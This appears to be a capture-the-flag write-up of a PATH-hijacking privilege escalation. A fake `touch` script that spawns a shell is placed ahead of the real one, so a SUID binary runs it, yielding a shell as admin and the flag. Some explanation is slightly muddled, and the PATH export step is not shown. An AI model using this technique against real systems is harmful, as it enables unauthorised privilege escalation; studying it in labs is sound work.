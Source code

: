 The file `my_very_special_script.o` has the suid bit set. That means that when executed, it will run as the group that owns it (root). The first line set the current user to admin (user id 1000). And the next one call `touch` to create a file. Not very interesting. 

However, `touch` is called without the full path. This means that if I have an excutable file called touch on my path before the realy one, my version will be executed. 

I created a file called touch in a temporary folder, and added that folder to my PATH environement variable. When I ran `my_very_special_script`, my version of touch was executed. This gave me a shell as the user admin.

```bash
$ mktemp -d
/tmp/tmp.fkwmMm064U

$ cd /tmp/tmp.fkwmMm064U

$ cat touch  
#!/bin/bash
sh

$ chmod +x touch
$ chmod +x .

$ /my_very_special_script.o

$ whoami
admin

$ ls -la /home/admin
total 24
dr-x------ 1 admin admin 4096 Feb  5 11:26 .
drwxr-xr-x 1 root  root  4096 Feb  5 11:26 ..
-rw-r--r-- 1 admin admin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 admin admin 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 admin admin  807 Feb 25  2020 .profile
-r--r--r-- 1 root  root    36 Feb  5 11:26 flag.txt
$ cat /home/admin/flag.txt
FLAG{5_la_track_est_enfin_finie_gj}
```



```
